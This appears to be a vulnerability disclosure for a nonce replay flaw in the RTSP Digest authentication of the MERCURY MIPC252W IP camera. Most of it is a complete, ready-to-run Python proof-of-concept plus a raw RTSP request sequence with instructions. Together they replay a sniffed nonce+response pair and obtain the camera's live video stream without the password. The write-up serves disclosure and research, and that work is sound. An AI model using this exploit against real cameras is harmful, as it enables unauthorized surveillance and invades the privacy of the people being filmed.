



# Information

**Vendor of the products:** MERCURY

**Vendor's website:** https://www.mercurycom.com.cn/

**Reported by:** YanKang

**Affected products:** MIPC252W

**Affected firmware version:** 1.0.5 Build 230306 Rel.79931n

**Firmware download address:** https://service.mercurycom.com.cn/download-2777.html

# Overview

A replay attack vulnerability (CWE-294) exists in the RTSP service of the MERCURY MIPC252W IP camera. The device fails to implement any nonce expiration or invalidation mechanism in its RTSP Digest authentication, contrary to the security recommendations of RFC 2617.

The standard RTSP Digest authentication flow is as follows:

1. The client sends an unauthenticated `DESCRIBE` request.
2. The server responds with `401 Unauthorized`, carrying a freshly generated `nonce` value.
3. The client computes a `response` using the `nonce`, username, and password:

```
HA1 = MD5(username:realm:password)
HA2 = MD5(method:uri)
response = MD5(HA1:nonce:HA2)
```

1. The client re-sends the `DESCRIBE` request with the `nonce` and computed `response` to complete authentication.
2. After authentication, subsequent requests (`SETUP`, `PLAY`, `TEARDOWN`) in the same session reuse the session state; the device no longer validates the `response` field per-request (this is a normal session mechanism, analogous to using a cookie after HTTP login).

Per RFC 2617, the `nonce` issued in step 2 should have a limited lifetime and must be invalidated after authentication or after a certain period, to prevent an attacker from reusing historically captured credentials. However, the affected device's RTSP service implements no such expiration mechanism. As long as a `nonce` and its paired `response` match, the server accepts the authentication request unconditionally. Testing has confirmed that a `nonce`+`response` pair captured **3 days prior** can still successfully authenticate — the actual upper bound of nonce validity has not been determined.

An attacker positioned on the same network as the target device can passively capture a single legitimate RTSP authentication exchange and extract the paired `nonce` and `response` fields. The `response` is derived from the `nonce`, username, and password, but once captured it can be reused directly without reversing the password. The attacker then initiates a new connection, **skips the initial unauthenticated `DESCRIBE` step** (which would generate a new server-side nonce), and directly submits the captured `nonce`+`response` pair in an authenticated `DESCRIBE` request. Upon successful authentication, subsequent `SETUP`, `PLAY`, and `TEARDOWN` requests can be sent with an empty `response` field, following the normal session mechanism. **The entire attack requires no knowledge of the device password** and allows the attacker to obtain the live video stream from the camera.

It should be noted that if an attacker accidentally sends an unauthenticated `DESCRIBE` first and triggers a `401` response, the server generates a new nonce for that session. In this case, the attacker simply closes the connection and reconnects, skipping the unauthenticated step again. The previously captured `nonce`+`response` pair is **not permanently invalidated** by this event. The root cause of the vulnerability lies in the complete absence of nonce lifetime management, enabling any attacker on the local network to achieve long-term unauthorized access to the camera's video stream using historically captured credentials, posing a serious threat to user privacy and surveillance data security.

# POC

```python
#!/usr/bin/env python3
"""
PoC for RTSP Digest Authentication Nonce Replay Attack
Affected Device: MERCURY MIPC252W (Firmware: 1.0.5 Build 230306 Rel.79931n)

This PoC demonstrates that the RTSP service does not implement nonce expiration.
A historically captured nonce+response pair can be replayed in a new connection
to authenticate without knowledge of the device password.

Usage:
    1. Fill in CAMERA_IP, CAPTURED_NONCE, and CAPTURED_RESPONSE below.
    2. Run: python3 rtsp_replay_poc.py

This code is for authorized security research purposes only.
"""

import socket
import time
import sys

# ─────────────────────────────────────────────
#  Configuration — fill in before running
# ─────────────────────────────────────────────
CAMERA_IP      = "192.168.0.149"   # Target device IP
RTSP_PORT      = 554
RTSP_URI       = f"rtsp://{CAMERA_IP}:{RTSP_PORT}/stream1"

# Historically captured credentials — no password required
CAPTURED_NONCE    = "PASTE_CAPTURED_NONCE_HERE"
CAPTURED_RESPONSE = "PASTE_CAPTURED_RESPONSE_HERE"

USERNAME = "admin"
REALM    = "MERCURY IP-Camera"
# ─────────────────────────────────────────────


def recv_rtsp_response(sock, timeout=5):
    """Read until a complete RTSP response header block is received."""
    sock.settimeout(timeout)
    data = b""
    try:
        while True:
            chunk = sock.recv(4096)
            if not chunk:
                break
            data += chunk
            if b"\r\n\r\n" in data and b"RTSP/1.0" in data:
                break
    except socket.timeout:
        pass
    return data


def main():
    if CAPTURED_NONCE == "PASTE_CAPTURED_NONCE_HERE":
        print("[!] Fill in CAPTURED_NONCE and CAPTURED_RESPONSE before running.")
        sys.exit(1)

    print("=" * 60)
    print("  MERCURY MIPC252W — RTSP Nonce Replay Attack PoC")
    print("=" * 60)
    print(f"  Target : {CAMERA_IP}:{RTSP_PORT}")
    print(f"  Nonce  : {CAPTURED_NONCE[:16]}...")
    print("=" * 60 + "\n")

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((CAMERA_IP, RTSP_PORT))
    print("[*] TCP connection established.\n")

    setup_uri = f"rtsp://{CAMERA_IP}:{RTSP_PORT}/stream1/"

    # ── Step 1: OPTIONS ──────────────────────────────────────────
    s.send((
        f"OPTIONS {RTSP_URI} RTSP/1.0\r\n"
        f"CSeq: 2\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n\r\n"
    ).encode())
    print("[OPTIONS]\n", recv_rtsp_response(s).decode(errors="ignore"))

    # ── Step 2: DESCRIBE with replayed credentials ────────────────
    # KEY: skip the unauthenticated DESCRIBE that would trigger 401
    # and generate a fresh server-side nonce. Instead, directly submit
    # the historically captured nonce+response to complete authentication.
    print("[*] Skipping unauthenticated DESCRIBE — replaying captured credentials...\n")

    s.send((
        f"DESCRIBE {RTSP_URI} RTSP/1.0\r\n"
        f"CSeq: 4\r\n"
        f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
        f"nonce=\"{CAPTURED_NONCE}\", uri=\"{RTSP_URI}\", "
        f"response=\"{CAPTURED_RESPONSE}\"\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
        f"Accept: application/sdp\r\n\r\n"
    ).encode())
    res = recv_rtsp_response(s).decode(errors="ignore")
    print("[DESCRIBE]\n", res)

    if "200 OK" not in res:
        print("[!] Authentication failed — try a fresher nonce+response pair.")
        s.close()
        sys.exit(1)

    print("[+] Authentication SUCCESS — replayed credentials accepted, no password used!\n")

    # ── Step 3: SETUP track1 ─────────────────────────────────────
    # response field is left empty — device does not re-validate per request
    s.send((
        f"SETUP {RTSP_URI}/track1 RTSP/1.0\r\n"
        f"CSeq: 5\r\n"
        f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
        f"nonce=\"{CAPTURED_NONCE}\", uri=\"{setup_uri}\", response=\"\"\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
        f"Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
    ).encode())
    res = recv_rtsp_response(s).decode(errors="ignore")
    print("[SETUP track1]\n", res)

    session_id = None
    for line in res.split("\r\n"):
        if line.startswith("Session:"):
            session_id = line.split(":")[1].split(";")[0].strip()
            break
    if not session_id:
        print("[!] Failed to extract Session ID.")
        s.close()
        sys.exit(1)
    print(f"[+] Session ID: {session_id}\n")

    # ── Step 4: SETUP track2 ─────────────────────────────────────
    s.send((
        f"SETUP {RTSP_URI}/track2 RTSP/1.0\r\n"
        f"CSeq: 6\r\n"
        f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
        f"nonce=\"{CAPTURED_NONCE}\", uri=\"{setup_uri}\", response=\"\"\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
        f"Transport: RTP/AVP/TCP;unicast;interleaved=2-3\r\n"
        f"Session: {session_id}\r\n\r\n"
    ).encode())
    res = recv_rtsp_response(s).decode(errors="ignore")
    print("[SETUP track2]\n", res)

    # ── Step 5: PLAY ─────────────────────────────────────────────
    s.send((
        f"PLAY {setup_uri} RTSP/1.0\r\n"
        f"CSeq: 7\r\n"
        f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
        f"nonce=\"{CAPTURED_NONCE}\", uri=\"{setup_uri}\", response=\"\"\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
        f"Session: {session_id}\r\n"
        f"Range: npt=0.000-\r\n\r\n"
    ).encode())
    res = recv_rtsp_response(s).decode(errors="ignore")
    print("[PLAY]\n", res)

    if "200 OK" not in res:
        print("[!] PLAY request failed.")
        s.close()
        sys.exit(1)

    print("[+] PLAY SUCCESS — live video stream is now accessible without password.")
    print("    The device is now streaming RTP/TCP interleaved data (H.265/PCMA).")
    # To capture the stream: parse RTP interleaved frames (0x24 | channel | length | RTP)
    # and de-packetize H.265 NAL units per RFC 7798 into an Annex B .hevc file.

    # ── Step 6: TEARDOWN ─────────────────────────────────────────
    s.send((
        f"TEARDOWN {setup_uri} RTSP/1.0\r\n"
        f"CSeq: 8\r\n"
        f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
        f"nonce=\"{CAPTURED_NONCE}\", uri=\"{setup_uri}\", response=\"\"\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
        f"Session: {session_id}\r\n\r\n"
    ).encode())
    time.sleep(0.3)
    s.close()

    print("\n" + "=" * 60)
    print("[+] PoC complete.")
    print("=" * 60)


if __name__ == "__main__":
    main()
```


# Attack Demo

The vulnerability can be triggered by replaying a previously captured RTSP Digest authentication credential pair. After capturing a single legitimate `DESCRIBE` exchange from the target device (e.g., via passive network sniffing), an attacker initiates a new RTSP connection and directly submits the captured `nonce`+`response` values in an authenticated `DESCRIBE` request, bypassing the initial unauthenticated step. Upon successful authentication, the attacker proceeds with `SETUP` and `PLAY` requests — with empty `response` fields — to obtain the live video stream without any knowledge of the device password.

Below is a complete example of the RTSP request sequence used during verification:

```
OPTIONS rtsp://{IP}:554/stream1 RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)

# Unauthenticated DESCRIBE request authentication bypass！！！

DESCRIBE rtsp://{IP}:554/stream1 RTSP/1.0
CSeq: 4
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="{CAPTURED_NONCE}", uri="rtsp://{IP}:554/stream1", response="{CAPTURED_RESPONSE}"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp

SETUP rtsp://{IP}:554/stream1/track1 RTSP/1.0
CSeq: 5
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="{CAPTURED_NONCE}", uri="rtsp://{IP}:554/stream1/", response=""
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=0-1

SETUP rtsp://{IP}:554/stream1/track2 RTSP/1.0
CSeq: 6
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="{CAPTURED_NONCE}", uri="rtsp://{IP}:554/stream1/", response=""
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=2-3
Session: {SESSION_ID}

PLAY rtsp://{IP}:554/stream1/ RTSP/1.0
CSeq: 7
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="{CAPTURED_NONCE}", uri="rtsp://{IP}:554/stream1/", response=""
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Session: {SESSION_ID}
Range: npt=0.000-

TEARDOWN rtsp://{IP}:554/stream1/ RTSP/1.0
CSeq: 8
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="{CAPTURED_NONCE}", uri="rtsp://{IP}:554/stream1/", response=""
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Session: {SESSION_ID}
```

**Notes:**

- `{IP}`: Replace with the target device IP address.
- `{CAPTURED_NONCE}`: Replace with the historically captured nonce value.
- `{CAPTURED_RESPONSE}`: Replace with the response value paired with the captured nonce. A valid response is only required for the first authenticated `DESCRIBE` request.
- `{SESSION_ID}`: Replace with the session ID returned in the `SETUP` response.
- The attack must skip the initial unauthenticated `DESCRIBE` request. If a `401` is accidentally triggered, simply close the connection, reconnect, and skip that step again — the captured `nonce`+`response` pair remains valid.

As the target device firmware is closed-source and does not expose debugging symbols or interfaces, dynamic analysis of the authentication logic is not available. To demonstrate the reproducibility and real-world impact of the vulnerability, a complete demonstration video is provided to show how the replayed credentials lead to unauthorized live stream access.









A complete proof-of-concept script and a short demonstration video are provided in this repository to illustrate the reliable reproduction of the issue.

https://github.com/izxnfirh8148/CVE_REQUESTS_references/releases/tag/MERCURY_MIPC252W_5th


# Supplement

This vulnerability allows an unauthenticated network-adjacent attacker to gain unauthorized access to the live video stream of the affected device. By passively capturing a single RTSP Digest authentication exchange and replaying the captured `nonce`+`response` pair in a subsequent connection, an attacker can bypass authentication entirely without knowing the device password.

Successful exploitation allows the attacker to view the camera's real-time video feed at any time, posing a severe threat to user privacy and the integrity of surveillance deployments. Since the captured credentials do not expire, the attacker retains persistent unauthorized access until the device password is changed (and even then, a new capture suffices to re-establish access).
